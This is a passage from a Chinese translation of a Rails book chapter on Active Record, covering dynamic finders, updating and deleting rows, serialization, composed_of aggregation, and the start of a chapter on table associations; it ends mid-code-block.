最后，Active Record定义了 `count_by_sql` 方法，该方法返回由SQL语句生成的一个数字（该语句通常是 `select count(*) from...`）。

```
count = LineItem.count_by_sql("select count(*)        " +
        " from line_items, orders     " +
        " where line_items.order_id = orders.id " +
        "   and orders.name = 'Dave Thomas'    ")
```

与 `find_by_sql` 一样，随着基本 `count` 函数变得更加复杂，`count_by_sql` 也逐渐不再被使用。

##### 动态查找器

对数据库进行的最常见的搜索可能是返回与给定值匹配的行。查询可能是 *返回所有*

查询戴夫的订单，或者获取所有主题为“Rails Rocks”的博客文章。在许多其他语言和框架中，你需要构造SQL查询来执行这些搜索。Active Record利用Ruby的动态特性为你完成了这一切。

例如，我们的Order模型拥有诸如name、email和address等属性。我们可以在查找方法中使用这些名称，返回相应列与某个值匹配的行。

```ruby
order  = Order.find_by_name("Dave Thomas")
orders = Order.find_all_by_name("Dave Thomas")
order  = Order.find_all_by_email(params['email'])
```

如果你调用一个模型的类方法，且该方法名以`find_by_`或`find_all_by_`开头，Active Record会将其转换为一个查找器，并使用方法名的其余部分来确定要检查的列。因此，对以下代码的调用

```ruby
order = Order.find_by_name("Dave Thomas", other_args...)
```

会被Active Record（有效地）转换为

```ruby
order = Order.find(:first,
                   :conditions => ["name = ?", "Dave Thomas"],
                   other_args...)
```

类似地，对`find_all_by_xxx`的调用会被转换为对应的`find(:all, ...)`调用。

这种魔法不止于此。Active Record还会创建在多列上进行搜索的查找器。例如，你可以这样写

```ruby
user = User.find_by_name_and_password(name, pw)
```

这等同于

```ruby
user = User.find(:first,
                 :conditions => ["name = ? and password = ?", name, pw])
```

为了确定要检查的列名，Active Record会简单地将`find_by_`或`find_all_by_`之后的部分围绕`_and_`字符串进行分割。这在大多数情况下都很好用，但如果你的列名类似于`tax_and_shipping`，这种方法就会失效。在这些情况下，你将不得不使用常规的查找方法。

动态查找器接受一个可选的哈希参数，就像那些可以传递给常规`find`方法的参数一样。如果你在这个哈希中指定了`:conditions`，这些条件会被添加到基础的动态查找器条件中。

```ruby
five_texan_daves = User.find_all_by_name('dave',
                                       :limit => 5,
                                       :conditions => "state = 'TX'")
```

有时你希望确保总能有一个模型对象可供操作。如果数据库中没有，你希望创建一个。动态查找器可以处理这种情况。调用一个方法名以`find_or_initialize_by_`或`find_or_create_by_`开头的方法，如果查找器原本会返回nil，则会在模型类上调用`new`或`create`。新的模型对象将被初始化，使其与查找器标准对应的属性具有传递给查找器方法的值，并且如果使用`create`变体，它将被保存到数据库。

```ruby
cart = Cart.find_or_initialize_by_user_id(user.id)
cart.items << new_item
cart.save
```

不，没有允许你在列名之间使用`_or_`而非`_and_`的`find_by_`形式。

##### 重新加载数据

在一个可能有多个进程（或多个应用程序）访问数据库的应用中，获取的模型对象总是有可能过时——有人可能已经向数据库写入了更新的副本。

在某种程度上，这个问题通过事务支持（我们在第384页描述）得到解决。然而，仍然会有需要手动刷新模型对象的时候。Active Record使得这变得简单——只需调用其`reload`方法，对象的属性就会从数据库刷新。

```ruby
stock = Market.find_by_ticker("RUBY")
loop do
  puts "Price = #{stock.price}"
  sleep 60
  stock.reload
end
```

实际上，`reload`在单元测试上下文之外很少使用。

#### 更新现有行

在如此长篇讨论查找器方法之后，你将很高兴地得知，关于使用Active Record更新记录的内容并不多。

如果你有一个Active Record对象（可能代表我们orders表中的一行），你可以通过调用其`save`方法将其写入数据库。如果这个对象之前是从数据库读取的，这次保存将更新现有的行；否则，保存将插入一行新行。

如果更新现有行，Active Record将使用其主键列将其与内存中的对象进行匹配。Active Record对象中包含的属性决定了哪些列将被更新——即使其值未更改，该列也会在数据库中被更新。在下面的示例中，订单123所在行的所有值都将在数据库表中被更新。

```ruby
order = Order.find(123)
order.name = "Fred"
order.save
```

然而，在下面的示例中，Active Record对象仅包含属性`id`、`name`和`paytype`——只有这些列在对象保存时会被更新。（注意，如果你打算保存使用`find_by_sql`获取的行，必须包含`id`列。）

```ruby
orders = Order.find_by_sql("select id, name, pay_type from orders where id=123")
first = orders[0]
first.name = "Wilma"
first.save
```

除了`save`方法，Active Record还允许你通过一次调用`update_attribute`来更改属性的值并保存模型对象。

```ruby
order = Order.find(123)
order.update_attribute(:name, "Barney")
order = Order.find(321)
order.update_attributes(:name => "Barney",
                       :email => "barney@bedrock.com")
```

`update_attributes`方法最常用于控制器动作中，它将来自表单的数据合并到现有数据库行中。

```ruby
def save_after_edit
  order = Order.find(params[:id])
  if order.update_attributes(params[:order])
    redirect_to :action => :index
  else
    render :action => :edit
  end
end
```

我们可以结合使用类方法`update`和`update_all`来读取行并更新它。`update`方法接受一个id参数和一组属性。它获取相应的行，更新给定的属性，将结果保存到数据库，并返回模型对象。

```ruby
order = Order.update(12, :name => "Barney", :email => "barney@bedrock.com")
```

你可以向`update`传递一个id数组和一个属性值哈希数组，它将更新数据库中所有相应的行，返回一个模型对象数组。

最后，`update_all`类方法允许你指定SQL `update`语句的`set`和`where`子句。例如，以下代码将所有标题中包含*Java*的产品价格提高10%。

```ruby
result = Product.update_all("price = 1.1*price", "title like '%Java%'")
```

`update_all`的返回值取决于数据库适配器；大多数（但不是Oracle）返回数据库中被更改的行数。

##### save、save!、create和create!

事实证明，`save`和`create`方法有两个版本。它们的区别在于报告错误的方式。

- `save`在记录成功保存时返回`true`；否则返回`nil`。
- `save!`在保存成功时返回`true`；否则抛出一个异常。
- `create`无论是否成功保存都返回Active Record对象。你需要检查对象是否有验证错误，以确定数据是否已写入。
- `create!`在成功时返回Active Record对象；否则抛出一个异常。

让我们更详细地看看这一点。

普通的`save`在模型对象有效且可以保存时返回`true`。

```ruby
if order.save
  # 一切正常
else
  # 验证失败
end
```

在每次调用`save`时，需要由你来检查它是否按预期执行。Active Record如此宽松的原因是，它假设`save`是在控制器动作方法的上下文中调用的，并且视图代码将会向最终用户展示任何错误。对于许多应用程序来说，情况确实如此。

然而，如果你需要在希望确保所有错误都通过编程处理的上下文中保存模型对象，你应该使用`save!`。如果对象无法保存，此方法会抛出一个`RecordInvalid`异常。

```ruby
begin
  order.save!
rescue RecordInvalid => error
  # 验证失败
end
```

#### 删除行

Active Record 支持两种风格的行删除。首先，它有两个类级别的方法，`delete` 和 `delete_all`，它们在数据库级别操作。`delete` 方法接受单个 id 或 id 数组，并删除底层表中对应的行。`delete_all` 删除匹配给定条件的行（如果未指定条件，则删除所有行）。两个调用的返回值取决于适配器，但通常是受影响的行数。如果调用前该行不存在，则不会抛出异常。

```ruby
Order.delete(123)
User.delete([2,3,4,5])
Product.delete_all(["price > ?", @expensive_price])
```

各种 `destroy` 方法是 Active Record 提供的第二种行删除形式。这些方法都通过 Active Record 模型对象进行操作。

`destroy` 实例方法从数据库中删除与特定模型对象对应的行。然后，它冻结该对象的内容，防止将来更改属性。

```ruby
order = Order.find_by_name("Dave")
order.destroy
# ... order 现在被冻结了
```

有两个类级别的销毁方法，`destroy`（接受一个 id 或 id 数组）和 `destroy_all`（接受一个条件）。两者都将数据库表中的对应行读取为模型对象，并调用该对象的实例级别 `destroy` 方法。这两个方法都不返回任何有意义的内容。

```ruby
Order.destroy_all(["shipped_at < ?", 30.days.ago])
```

为什么我们需要 `delete` 和 `destroy` 这两个类方法？`delete` 方法绕过各种 Active Record 回调和验证函数，而 `destroy` 方法确保所有这些都被调用。（我们从第 374 页开始讨论回调。）通常，如果你想确保数据库根据模型类中定义的业务规则保持一致性，最好使用 `destroy` 方法。

### 17.6 聚合和结构化数据

（本节包含你在初次阅读时可以安全跳过的内容。）

#### 存储结构化数据

有时直接将包含任意 Ruby 对象的属性存储到数据库表中会很有帮助。Active Record 支持此功能的一种方式是将 Ruby 对象序列化为字符串（YAML 格式），并将该字符串存储在与该属性对应的数据库列中。在模式（schema）中，此列必须定义为 text 类型。

因为 Active Record 通常将字符或文本列映射为普通的 Ruby 字符串，如果你想利用此功能，需要告诉 Active Record 使用序列化。例如，我们可能希望记录客户的最近五次购买。我们将创建一个包含 text 列的表来保存此信息。

```ruby
# Download e1/ar/dump_serialize_table.rb
create_table :purchases, :force => true do |t|
  t.column :name, :string
  t.column :last_five, :text
end
```

在包装此表的 Active Record 类中，我们将使用 `serialize` 声明来告诉 Active Record 如何将对象编组（marshal）到此列中以及从该列中取出。

```ruby
# Download e1/ar/dump_serialize_table.rb
class Purchase < ActiveRecord::Base
  serialize :last_five
  # ...
end
```

当我们创建新的 Purchase 对象时，我们可以将任何 Ruby 对象分配给 `last_five` 列。在本例中，我们将其设置为一个字符串数组。

```ruby
purchase = Purchase.new
purchase.name = "Dave Thomas"
purchase.last_five = [ 'shoes', 'shirt', 'socks', 'ski mask', 'shorts' ]
purchase.save
```

稍后我们读取它时，该属性会被设置回一个数组。

```ruby
purchase = Purchase.find_by_name("Dave Thomas")
pp purchase.last_five
pp purchase.last_five[3]
```

此代码输出

```
["shoes", "shirt", "socks", "ski mask", "shorts"]
"ski mask"
```

虽然功能强大且方便，但如果你需要在 Ruby 应用程序之外使用序列化列中的信息，这种方法会带来问题。除非该应用程序理解 YAML 格式，否则该列内容对它来说将是不透明的。特别是，在 SQL 查询中使用这些列内部的结构将会很困难。因此，通常更好的方法是使用组合（composition）进行对象聚合。

#### 使用聚合组合数据

数据库列的数据类型有限：整数、字符串、日期等。通常，我们的应用程序更为丰富——我们定义类来表示代码的抽象。如果我们能以某种方式将数据库中的某些列信息映射到我们更高层次的抽象中，就像我们将行数据本身封装在模型对象中一样，那将非常理想。

例如，一个客户数据表可能包含用于存储客户姓名的列——名、中间名首字母和姓氏。在程序内部，我们希望将这些与姓名相关的列包装到一个单独的 Name 对象中；这三个列被映射到一个单独的 Ruby 对象，该对象包含在客户模型中，与所有其他客户字段一起。而且，当我们需要将模型数据写回数据库时，我们希望数据能从 Name 对象中提取出来，并放回数据库中相应的三个列里。

此功能称为*聚合*（尽管有些人称之为*组合*——这取决于你是自顶向下还是自底向上看待它）。毫不奇怪，Active Record 使其易于实现。你定义一个类来保存数据，并在模型类中添加一个声明，告诉它如何将数据库列映射到数据持有者类的对象，以及如何从对象映射回数据库列。

持有组合数据的类（本例中的 Name 类）必须满足两个条件。首先，它必须有一个构造函数，该构造函数接受数据库列中出现的数据，每个列对应一个参数。其次，它必须提供返回此数据的属性，同样每个列对应一个属性。在内部，它可以以任何需要的形式存储数据，只要它能将列数据映射进去和映射出来即可。

对于我们的姓名示例，我们将定义一个简单的类，将三个组件作为实例变量保存。我们还将定义一个 `to_s` 方法，将全名格式化为字符串。

```ruby
# Download e1/ar/aggregation.rb
class Name
  attr_reader :first, :initials, :last

  def initialize(first, initials, last)
    @first = first
    @initials = initials
    @last = last
  end

  def to_s
    [ @first, @initials, @last ].compact.join(" ")
  end
end
```

现在我们必须告诉我们的 Customer 模型类，三个数据库列 `first_name`、`initials` 和 `last_name` 应该被映射到 Name 对象。我们使用 `composed_of` 声明来完成此操作。

虽然 `composed_of` 可以只用一个参数调用，但最好先描述该声明的完整形式，并展示如何设置各种字段的默认值。

```
composed_of :attr_name, :class_name => SomeClass, :mapping => mapping
```

`attr_name` 参数指定组合属性在模型类中将被赋予的名称。如果我们定义我们的客户为

```ruby
class Customer < ActiveRecord::Base
  composed_of :name, ...
end
```

我们就可以使用客户对象的 `name` 属性来访问组合对象。

```ruby
customer = Customer.find(123)
puts customer.name.first
```

`:class_name` 选项指定持有组合数据的类的名称。该选项的值可以是类常量，也可以是包含类名的字符串或符号。在我们的例子中，类是 Name，所以我们可以这样指定

```ruby
class Customer < ActiveRecord::Base
  composed_of :name, :class_name => Name, ...
end
```

如果类名仅仅是属性名称的混合大小写形式（在我们的例子中就是如此），则可以省略。

`:mapping` 参数告诉 Active Record 表中的列如何映射到组合对象中的属性和构造函数参数。`:mapping` 的参数可以是一个两元素数组，也可以是一个包含两元素数组的数组。每个两元素数组的第一个元素是数据库列的名称。第二个元素是组合属性中相应访问器的名称。映射参数中元素出现的顺序定义了数据库列内容作为参数传递给组合对象的 `initialize` 方法的顺序。图 17.2 展示了映射选项的工作原理。如果省略此选项，Active Record 将假定数据库列和组合对象属性都与模型属性同名。

对于我们的 Name 类，我们需要将三个数据库列映射到组合对象。customers 表的定义如下所示。

```ruby
# Download e1/ar/aggregation.rb
create_table :customers, :force => true do |t|
  t.column :created_at,      :datetime
  t.column :credit_limit,    :decimal, :precision => 10, :scale => 2, :default => 100
  t.column :first_name,      :string
  t.column :initials,        :string
  t.column :last_name,       :string
  t.column :last_purchase,   :datetime
  t.column :purchase_count,  :integer, :default => 0
end
```

列 `first_name`、`initials` 和 `last_name` 应该映射到 Name 类中的 `first`、`initials` 和 `last` 属性。<sup>12</sup> 为了向 Active Record 指定这一点，我们将使用以下声明。

> 12. 在实际应用中，我们更愿意看到属性的名称与列的名称相同。这里使用不同的名称有助于我们说明 `:mapping` 选项的参数作用。


#### 复合对象

class Customer < ActiveRecord::Base

  composed_of :name,
             :class_name => Name,
             :mapping =>
               [ # 数据库                Ruby
                 [ :first_name,            :first ],
                 [ :initials,              :initials ],
                 [ :last_name,             :last ]
               ]
end

尽管我们花了些时间来描述这些选项，但实际上创建这些映射所需的工作量非常小。一旦完成，它们就很容易使用：模型对象中的复合属性将是你所定义的复合类的实例。

```ruby
name = Name.new("Dwight", "D", "Eisenhower")

Customer.create(:credit_limit => 1000, :name => name)

customer = Customer.find(:first)
puts customer.name.first     #=> Dwight
puts customer.name.last      #=> Eisenhower
puts customer.name.to_s      #=> Dwight D Eisenhower
customer.name = Name.new("Harry", nil, "Truman")
customer.save
```

这段代码在 `customers` 表中创建了一行新记录，其 `first_name`、`initials` 和 `last_name` 列分别从新的 `Name` 对象的 `first`、`initials` 和 `last` 属性初始化。它从数据库中获取这一行数据，并通过复合对象访问其字段。最后，它更新了该行。请注意，你不能直接更改复合对象中的字段。相反，你必须传入一个新对象。

复合对象并不一定非要将数据库中的多个列映射到单个对象；通常，将单个列映射到非整数、浮点数、字符串或日期时间类型之外的类型也很有用。一个常见的例子是表示货币的数据库列：你可能不想将数据存储为原生的浮点数，而是希望创建具有你应用所需属性（如舍入行为）的特殊 `Money` 对象。

我们可以使用 `composed_of` 声明将结构化数据存储在数据库中。我们无需使用 YAML 将数据序列化到数据库列中，而是可以使用复合对象自己进行序列化。例如，让我们重新审视存储客户最近五次购买记录的方式。之前，我们将列表作为 Ruby 数组保存，并将其序列化为 YAML 字符串存入数据库。现在，让我们将信息包装在一个对象中，并让该对象以其自己的格式保存数据。在这个例子中，我们将产品列表保存为一个常规字符串中的逗号分隔值。

首先，我们将创建一个 `LastFive` 类来包装这个列表。因为数据库将列表存储在一个简单的字符串中，所以它的构造函数也接收一个字符串，并且我们需要一个返回字符串内容的方法。但在内部，我们将列表存储在一个 Ruby 数组中。

```ruby
class LastFive
  attr_reader :list

  # 接收一个包含 "a,b,c" 的字符串并
  # 存储为 [ 'a', 'b', 'c' ]
  def initialize(list_as_string)
    @list = list_as_string.split(/,/)
  end

  # 返回一个以逗号分隔的字符串
  def last_five
    @list.join(',')
  end
end
```

我们可以声明我们的 `LastFive` 类包装了 `last_five` 数据库列。

```ruby
class Purchase < ActiveRecord::Base
  composed_of :last_five
end
```

运行后，我们可以看到 `last_five` 属性包含一个值数组。

```ruby
Purchase.create(:last_five => LastFive.new("3,4,5"))

purchase = Purchase.find(:first)

puts purchase.last_five.list[1]    #=>    4
```

##### 复合对象是值对象

*值对象* 是一个在其创建后状态可能不会改变的对象——它实际上是不可变的。Active Record 中聚合的哲学是，复合对象就是值对象：你不应该更改它们的内部状态。

这并非总是能由 Active Record 或 Ruby 直接强制执行——例如，你可以使用 `String` 类的 `replace` 方法来更改复合对象某个属性的值。但是，如果你这样做，Active Record 会在你后续保存模型对象时忽略这一更改。

更改与复合属性关联的列值的正确方法是将一个新的复合对象赋值给该属性。

```ruby
customer = Customer.find(123)
old_name = customer.name
customer.name = Name.new(old_name.first, old_name.initials, "Smith")
customer.save
```

### 17.7 杂项

本节包含一些不适合放在其他地方的各种与 Active Record 相关的主题。

#### 对象标识

模型对象重新定义了 Ruby 的 `id` 和 `hash` 方法，以引用模型的主键。这意味着具有有效 id 的模型对象可以用作哈希键。这也意味着未保存的模型对象不能可靠地用作哈希键（因为它们还没有有效的 id）。

如果两个模型对象是同一类的实例并且具有相同的主键，则它们被认为是相等的（使用 `==`）。这意味着未保存的模型对象即使具有不同的属性数据也可能比较相等。如果你发现自己需要比较未保存的模型对象（这不是一个特别频繁的操作），你可能需要重写 `==` 方法。

#### 使用原始连接

你可以使用底层的 Active Record 连接适配器来执行 SQL 语句。这在那些（罕见的）需要在 Active Record 模型类上下文之外与数据库交互的情况下非常有用。

在最底层，你可以调用 `execute` 来运行（依赖于数据库的）SQL 语句。返回值取决于所使用的数据库适配器。例如，对于 MySQL，它返回一个 `Mysql::Result` 对象。如果你真的需要在这个底层工作，你可能需要从代码本身阅读此调用的详细信息。幸运的是，你通常不需要这样做，因为数据库适配器层提供了更高级别的抽象。

`select_all` 方法执行一个查询，并返回一个对应于结果集的属性哈希数组。

```ruby
res = Order.connection.select_all("select id, quantity*unit_price as total " +
                             "from line_items")
p res
```

这会产生类似以下内容的结果：

```ruby
[{"total"=>"29.95", "id"=>"91"},
{"total"=>"59.90", "id"=>"92"},
{"total"=>"44.95", "id"=>"93"}]
```

`select_one` 方法返回一个单独的哈希，该哈希派生自结果集的第一行。

关于可用的底层连接方法的完整列表，请查阅 Rails API 文档中的 `AbstractAdapter`。

#### 缺失 ID 之谜

当你使用自定义的 finder SQL 将行检索到 Active Record 对象中时，存在一个隐藏的危险。

Active Record 使用行的 `id` 列来跟踪数据所属的位置。当你使用 `find_by_sql` 时，如果未随列数据一起获取 `id`，你将无法将结果存储在数据库中。不幸的是，Active Record 仍然会尝试并默默地失败。例如，以下代码不会更新数据库。

```ruby
result = LineItem.find_by_sql("select quantity from line_items")
result.each do |li|
  li.quantity += 2
  li.save
end
```

也许有一天 Active Record 会检测到 id 缺失的事实，并在这些情况下抛出异常。与此同时，原则很明确：如果你打算将 Active Record 对象保存到数据库中，**务必**获取主键列。事实上，除非你有特别的理由不这样做，否则在自定义查询中执行 `select *` 可能是最安全的。

#### 魔法列名

许多列名对 Active Record 具有特殊意义。以下是摘要。

- **created_at, created_on, updated_at, updated_on**
  自动更新为行创建或最后更新的时间戳（第 376 页）。确保底层数据库列能够接收日期、日期时间或字符串。Rails 应用程序约定日期列使用 `_on` 后缀，包含时间的列使用 `_at` 后缀。

- **lock_version**
  如果表包含 `lock_version`，Rails 将跟踪行版本号并执行乐观锁（第 390 页）。


**type**
由单表继承用于跟踪行的类型（第344页）。

**id**
表主键列的默认名称（第289页）。

**xxx_id**
对外键引用的默认名称，指向名为xxx（复数形式）的表（第324页）。

**xxx_count**
为子表xxx维护一个计数器缓存（第362页）。

**position**
如果使用了 `acts_as_list`，则表示此行在列表中的位置（第355页）。

**parent_id**
如果使用了 `acts_as_tree`，则指向此行父项的id引用（第357页）。

# 第18章

## Active Record 第二部分：表之间的关系

大多数应用程序都与数据库中的多个表打交道，并且通常这些表之间会存在关系。订单会有多个订单项。一个订单项会引用特定的产品。一个产品可能属于多个不同的产品类别，而每个类别可能包含多个不同的产品。

在数据库模式中，这些关系是通过基于主键值链接表来表达的。¹ 如果一个订单项引用一个产品，那么 `line_items` 表将包含一个列，该列保存 `products` 表中对应行的主键值。用数据库术语来说，`line_items` 表被称为有一个 *外键* 引用指向 `products` 表。

但这都是非常底层的。在我们的应用程序中，我们希望处理的是模型对象及其关系，而不是数据库行和键列。如果一个订单有多个订单项，我们希望有一种方法来遍历它们。如果一个订单项引用一个产品，我们希望能够简单地表达，比如

```
price = line_item.product.price
```

而不是

```
product_id = line_item.product_id
product    = Product.find(product_id)
price      = product.price
```

1. 模型对象之间还有另一种关系样式，即一个模型是另一个的子类。我们在 **18.4** 节 *单表继承*（第 **344** 页）中讨论了这一点。

Active Record 来解救了。其ORM魔法的一部分在于，它将数据库中的底层外键关系转换为高级的跨对象映射。它处理了三种基本情况。

- 表A中的一行与表B中的零行或一行相关联。
- 表A中的一行与表B中任意数量的行相关联。
- 表A中任意数量的行与表B中任意数量的行相关联。

当涉及表间关系时，我们必须给Active Record提供一点帮助。这其实不是Active Record的错——无法从模式中推断出开发者打算建立什么样的表间关系。然而，我们需要提供的帮助量是极少的。

### 18.1 创建外键

正如我们之前讨论的，当一个表包含指向另一个表主键的外键引用时，两个表就相关联了。在下面的迁移中，`line_items` 表包含指向 `products` 和 `orders` 表的外键引用。

```
def self.up
  create_table :products do |t|
    t.column :title, :string
    # ...
  end

  create_table :orders do |t|
    t.column :name, :string
    # ...
  end

  create_table :line_items do |t|
    t.column :product_id, :integer
    t.column :order_id,    :integer
    t.column :quantity,    :integer,
    t.column :unit_price, :decimal, :precision => 8, :scale => 2
  end
end
```

值得注意的是，此迁移没有定义任何外键约束。表间关系得以建立，仅仅是因为开发者会用来自 `products` 和 `orders` 表的键值填充 `product_id` 和 `order_id` 列。你 *也可以* 选择在迁移中建立这些约束（我个人建议你这样做），但Rails中的外键支持并不需要它们。

查看此迁移，我们可以明白为什么Active Record很难自动划分表间关系。`line_items` 表中的 `order_id` 和 `product_id` 外键引用看起来一模一样。然而，`product_id` 列用于将一个订单项与一个产品精确关联。`order_id` 列用于将多个订单项与一个订单关联。订单项是订单的一部分，但它引用的是产品。

这个例子也展示了标准的Active Record命名约定。外键列应以目标表的类名命名，转换为小写，并附加 `_id`。请注意，根据复数化和附加 `_id` 的约定，假定的外键名称将与被引用的表名始终不同。如果你有一个名为 `Person` 的Active Record模型，它将映射到数据库表 `people`。从其他表到 `people` 表的外键引用的列名将是 `person_id`。

另一种关系类型是某数量的一项与另一项的某数量相关联（例如产品属于多个类别，而类别包含多个产品）。处理此问题的SQL约定是使用第三个表，称为连接表。连接表包含它链接的每个表的一个外键，因此连接表中的每一行代表另外两个表之间的链接。这是另一个迁移。

```
def self.up
  create_table :products do |t|
    t.column :title, :string
    # ...
  end

  create_table :categories do |t|
    t.column :name, :string
    # ...
  end

  create_table :categories_products, :id => false do |t|
    t.column :product_id, :integer
    t.column :category_id, :integer
  end

  # 如果连接表增长变大，索引对于性能很重要
  add_index :categories_products, [:product_id, :category_id]
  add_index :categories_products, :category_id
end
```

Rails假设连接表的名称由其连接的两个表（按字母顺序排列）命名。Rails将自动找到连接 `categories` 和 `products` 的连接表 `categories_products`。如果你使用其他名称，你需要添加一个声明以便Rails可以找到它。

请注意，我们的连接表不需要一个 `id` 列作为主键，因为产品和类别id的组合是唯一的。我们通过指定 `:id => false` 阻止了迁移自动添加 `id` 列。然后，我们在连接表上创建了两个索引。第一个复合索引实际上有两个用途：它创建了一个可以在两个外键列上搜索的索引，并且对于大多数数据库，它还创建了一个可以按产品id快速查找的索引。第二个索引则补全了情况，允许按类别id快速查找。

### 18.2 在模型中指定关系

Active Record支持三种类型的表间关系：一对一、一对多和多对多。你通过向模型添加声明来指示这些关系：`has_one`、`has_many`、`belongs_to` 和命名绝佳的 `has_and_belongs_to_many`。

#### 一对一关系

一对一关联（或者更准确地说，一对一或零关系）是通过一个表中一行的外键最多引用另一表中的一行来实现的。*一对一* 关系可能存在于订单和发票之间：每个订单最多有一张发票。

```
class Invoice < ActiveRecord::Base
  belongs_to :order
  # ...
end

class Order < ActiveRecord::Base
  has_one :invoice
  # ...
end
```

如示例所示，我们在Rails中通过向 `Order` 模型添加 `has_one` 声明，并向 `Invoice` 模型添加 `belongs_to` 声明来实现这一点。

这里说明了一个重要的规则：包含外键的表所对应的模型 *始终* 具有 `belongs_to` 声明。

#### 一对多关系

一对多关联允许你表示一个对象集合。例如，一个订单可能有任意数量的关联订单项。在数据库中，特定订单的所有订单项行都包含一个指向该订单的外键列。


在 Active Record 中，父对象（逻辑上包含子对象集合的对象）使用 `has_many` 来声明其与子表的关系，而子表则使用 `belongs_to` 来指明其父对象。在我们的示例中，`LineItem` 类 `belongs_to :order`，而 `orders` 表则 `has_many :line_items`。

请注意，这里再次强调，因为 line item 包含外键，所以它有 `belongs_to` 声明。

##### 多对多关系

最后，我们可能会对产品进行分类。一个产品可以属于多个类别，而每个类别可能包含多个产品。这就是一个 *多对多* 关系的例子。就好像关系的每一端都包含另一端的一组项目。

```ruby
class Category < ActiveRecord::Base
  has_and_belongs_to_many :products
  # ...
end

class Product < ActiveRecord::Base
  has_and_belongs_to_many :categories
  # ...
end
```

在 Rails 中，我们通过在两个模型中都添加 `has_and_belongs_to_many` 声明来表达这一点。从这里开始，我们将把这个声明简写为 `habtm`。

多对多关联是对称的——两个连接的表都使用 `habtm` 声明它们彼此之间的关联。

在数据库内部，多对多关联是通过一个中间连接表来实现的。这个表包含连接两个目标表的外键对。Active Record 假设这个连接表的名称是两个目标表名称按字母顺序拼接而成。在我们的示例中，我们连接了 `categories` 表和 `products` 表，因此 Active Record 将寻找一个名为 `categories_products` 的连接表。

### 18.3 belongs_to 和 has_xxx 声明

各种关联声明（`belongs_to`、`has_one` 等）的作用远不止是指定表之间的关系。它们各自向模型添加了许多方法，以帮助在关联对象之间导航。让我们更详细地看看这些方法。（如果你想看简短版本，我们在第 353 页的图 18.3 中总结了相关内容。）

#### belongs_to 声明

`belongs_to` 声明给定的类相对于包含该声明的类具有父关系。尽管在思考这种关系时，*belongs to*（属于）可能不是首先想到的短语，但 Active Record 的约定是，包含外键的表属于它所引用的表。如果这有助于理解，在编码时你可以想 *references*（引用），但输入 `belongs_to`。

父类名被假定为属性名称的大小写混合单数形式，外键字段是父类名的单数形式加上 `_id` 后缀。这里有几个 `belongs_to` 声明，以及相关的外键字段和目标类名与表名。

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :product
  belongs_to :invoice_item
end
```

| 声明 | 外键 | 目标类 | 目标表 |
|---|---|---|---|
| `belongs_to :product` | `product_id` | `Product` | `products` |
| `belongs_to :invoice_item` | `invoice_item_id` | `InvoiceItem` | `invoice_items` |

Active Record 将 line items 链接到 `Product` 和 `InvoiceItem` 类。在底层模式中，它使用外键 `product_id` 和 `invoice_item_id` 分别引用 `products` 和 `invoice_items` 表中的 `id` 列。

你可以通过在关联名称后传递一个选项哈希来覆盖这些以及其他假设。

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :paid_order,
           :class_name => "Order",
           :foreign_key => "order_id",
           :conditions => "paid_on is not null"
end
```

在这个例子中，我们创建了一个名为 `paid_order` 的关联，它引用了 `Order` 类（因此也是 `orders` 表）。关联是通过 `order_id` 外键建立的，但它进一步限定了条件：只有当目标行中的 `paid_on` 列不为空时，才会找到订单。在这种情况下，我们的关联与底层 `line_items` 表中的单个列没有直接映射。`belongs_to` 接受许多其他选项：我们将在介绍更高级主题时查看这些选项。

`belongs_to` 方法创建了许多实例方法来管理关联。这些方法的名称都包含关联的名称。让我们看看 `LineItem` 类。

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :product
end
```

在这种情况下，将为 line items 以及它们所属的 products 定义以下方法。

`product(force_reload=false)`
: 返回关联的 product（如果不存在关联的 product，则返回 `nil`）。结果会被缓存，除非传递参数 `true`，否则后续使用此关联时不会再次查询数据库。最常见的情况是，这个方法被当作（假设是）一个 line item 对象的简单属性来调用：
```ruby
li = LineItem.find(1)
puts "The product name is #{li.product.name}"
```

`product=obj`
: 将此 line item 与给定的 product 关联，将此 line item 中的 `product_id` 列设置为该 product 的主键。如果 product 尚未保存，它将在 line item 保存时被保存，并且键将在那时链接起来。

`build_product(attributes={})`
: 构造一个新的 product 对象，使用给定的属性初始化。此 line item 将链接到它。该 product 尚未保存。

`create_product(attributes={})`
: 构建一个新的 product 对象，将此 line item 链接到它，并保存该 product。

让我们看看其中一些自动创建的方法的使用情况。我们有以下模型。

```ruby
class Product < ActiveRecord::Base
  has_many :line_items
end
```

```ruby
class LineItem < ActiveRecord::Base
  belongs_to :product
end
```

假设数据库中已有一些 line items 和 products，让我们运行以下代码。

```ruby
# Download e1/ar/associations.rb

item = LineItem.find(2)

# item.product 是关联的 Product 对象
puts "Current product is #{item.product.id}"
puts item.product.title

item.product = Product.new(:title          => "Rails for Java Developers",
                           :description    => "...",
                           :image_url      => "http://....jpg",
                           :price          => 34.95,
                           :available_at   => Time.now)

item.save!

puts "New product is #{item.product.id}"
puts item.product.title
```

如果我们运行此代码（使用适当的数据库连接），我们可能会看到如下输出：

```
Current product is 1
Programming Ruby
New product is 2
Rails for Java Developers
```

我们使用了在 `LineItem` 类中生成的 `product` 和 `product=` 方法来访问和更新与 line item 对象关联的 product 对象。在后台，Active Record 保持了数据库的同步。当我们保存相应的 line item 时，它自动保存了我们创建的新 product，并将 line item 链接到该新 product 的 id。

我们也可以使用自动生成的 `create_product` 方法来创建一个新的 product 并将其与我们的 line item 关联起来。

```ruby
# Download e1/ar/associations.rb

item.create_product(:title          => "Rails Recipes",
                    :description    => "...",
                    :image_url      => "http://....jpg",
                    :price          => 32.95,
                    :available_at   => Time.now)
```

我们使用了 `create_` 而不是 `build_`，因此无需保存该 product。

#### has_one 声明

`has_one` 声明给定的类（默认情况下是属性名称的大小写混合单数形式）是本类的子类。这意味着对应于子类的表将有一个外键引用回本类。


##### has_one 的声明

在 `has_one` 声明中，我们定义了一个与父表关联的子表。以下代码将 `invoices` 表声明为 `orders` 表的子表。

```ruby
class Order < ActiveRecord::Base
  has_one :invoice
end
```

| 声明 | 外键 | 目标类 | 目标表 |
| :--- | :--- | :--- | :--- |
| has_one :invoice | order_id（在 invoices 表中） | Invoice | invoices |

`has_one` 声明在模型对象中定义了与 `belongs_to` 相同的一组方法。因此，根据前面的类定义，我们可以这样编写代码：

```ruby
order = Order.new(... attributes ...)
invoice = Invoice.new(... attributes ...)
order.invoice = invoice
```

如果一个父行没有对应的子行，`has_one` 关联将被设置为 `nil`（在 Ruby 中被当作 `false` 处理）。这使得你可以编写如下代码：

```ruby
